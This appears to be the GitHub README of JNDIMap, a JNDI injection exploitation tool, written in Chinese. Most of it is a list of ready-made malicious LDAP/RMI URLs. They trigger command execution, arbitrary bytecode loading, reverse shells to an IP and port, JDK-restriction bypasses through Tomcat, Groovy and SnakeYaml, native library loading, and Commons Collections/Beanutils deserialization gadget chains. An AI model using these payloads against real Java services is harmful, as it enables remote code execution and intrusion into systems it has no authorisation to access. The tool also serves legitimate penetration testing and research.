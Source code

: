 # JNDIMap

JNDIMap 是一个 JNDI 注入利用工具, 支持 RMI 和 LDAP 协议

目前支持以下功能

- DnsLog
- 命令执行
- 原生反弹 Shell (支持 Windows)
- 加载自定义 Class 字节码
- Tomcat/Groovy/SnakeYaml 绕过高版本 JDK
- MLet 探测可用 Gadget
- NativeLibLoader 加载动态链接库
- LDAP 反序列化

## Usage

```bash
Usage: java -jar JNDIMap.jar [-r <rmiPort>] [-l <ldapPort>] [-p <httpPort>] [-u] [-h]
````

RMI 和 LDAP 服务器监听地址默认为 `0.0.0.0`

`-r`: RMI 服务器监听端口, 默认为 `1099`

`-l`: LDAP 服务器监听端口, 默认为 `1389`

`-p`: HTTP 服务器监听端口, 默认为 `3456`

`-u`: 显示 JNDI URL 信息

`-h`: 显示 Usage 信息

## JNDI URL

注意传入的 Base64 均为 **Base64 URL 编码**, 即把 `+` 和 `/` 替换为 `-` 和 `_`

以下路由除 `/Deserialize/*` (LDAP 反序列化) 以外, 均支持 RMI 和 LDAP 协议

对于 RMI 协议, 只需要将 `ldap://127.0.0.1:1389/` 替换为 `rmi://127.0.0.1:1099/` 即可

```bash
# DnsLog
ldap://127.0.0.1:1389/Basic/DnsLog/xxx.dnslog.cn

# 命令执行
ldap://127.0.0.1:1389/Basic/Command/open -a Calculator
ldap://127.0.0.1:1389/Basic/Command/Base64/b3BlbiAtYSBDYWxjdWxhdG9yCg==

# 从字符串/服务器上的某个路径加载自定义的 Class 字节码
ldap://127.0.0.1:1389/Basic/FromCode/<base64-java-bytecode>
ldap://127.0.0.1:1389/Basic/FromPath/<base64-path-to-evil-class-file>

# 反弹 Shell (支持 Windows)
ldap://127.0.0.1:1389/Basic/ReverseShell/127.0.0.1/4444

# 以下 Bypass 方式支持 Basic 所有功能

# Tomcat Bypass
ldap://127.0.0.1:1389/TomcatBypass/Command/open -a Calculator

# Groovy Bypass
ldap://127.0.0.1:1389/GroovyClassLoader/Command/open -a Calculator
ldap://127.0.0.1:1389/GroovyShell/Command/open -a Calculator

# SnakeYaml Bypass
ldap://127.0.0.1:1389/SnakeYaml/Command/open -a Calculator

# MLet 探测可用 Gadget
# 如果 com.example.TestClass 这个类存在, 则 HTTP 服务器会接收到一个 /com/example/TestClass_exists.class 请求
ldap://127.0.0.1:1389/MLet/com.example.TestClass

# NativeLibLoader 加载动态链接库
# 需要通过其它方式在目标机器上写入一个 dll/so/dylib, 然后通过 NativeLibLoader 加载
# 注意传入的 path 为绝对路径, 且不能包含后缀名
# 例如: 服务器上存在 /tmp/evil.so, 则 path 为 /tmp/evil
ldap://127.0.0.1:1389/NativeLibLoader/<base64-path-to-native-library>

# 自定义数据 反序列化
ldap://127.0.0.1:1389/Deserialize/<base64-serialize-data>

# CommonsCollectionsK1 反序列化 (3.1 + TemplatesImpl), 支持命令执行和反弹 Shell
ldap://127.0.0.1:1389/Deserialize/CommonsCollectionsK1/Command/open -a Calculator
ldap://127.0.0.1:1389/Deserialize/CommonsCollectionsK1/Command/Base64/b3BlbiAtYSBDYWxjdWxhdG9yCg==
ldap://127.0.0.1:1389/Deserialize/CommonsCollectionsK1/ReverseShell/127.0.0.1/4444

# CommonsCollectionsK2 反序列化 (4.0 + TemplatesImpl), 功能同上
ldap://127.0.0.1:1389/Deserialize/CommonsCollectionsK2/Command/open -a Calculator

# CommonsCollectionsK3 反序列化 (3.1 + Runtime.exec), 仅支持命令执行
ldap://127.0.0.1:1389/Deserialize/CommonsCollectionsK3/Command/open -a Calculator
ldap://127.0.0.1:1389/Deserialize/CommonsCollectionsK3/Command/Base64/b3BlbiAtYSBDYWxjdWxhdG9yCg==

# CommonsCollectionsK4 反序列化 (4.0 + Runtime.exec), 功能同上
ldap://127.0.0.1:1389/Deserialize/CommonsCollectionsK4/Command/open -a Calculator

# CommonsBeanutils1NoCC 反序列化 (1.9.4, 无需 commons-collections 依赖), 使用 TemplatesImpl, 支持命令和反弹 Shell
ldap://127.0.0.1:1389/Deserialize/CommonsBeanutils1NoCC/Command/open -a Calculator
ldap://127.0.0.1:1389/Deserialize/CommonsBeanutils1NoCC/Command/Base64/b3BlbiAtYSBDYWxjdWxhdG9yCg==
ldap://127.0.0.1:1389/Deserialize/CommonsBeanutils1NoCC/ReverseShell/127.0.0.1/4444
```
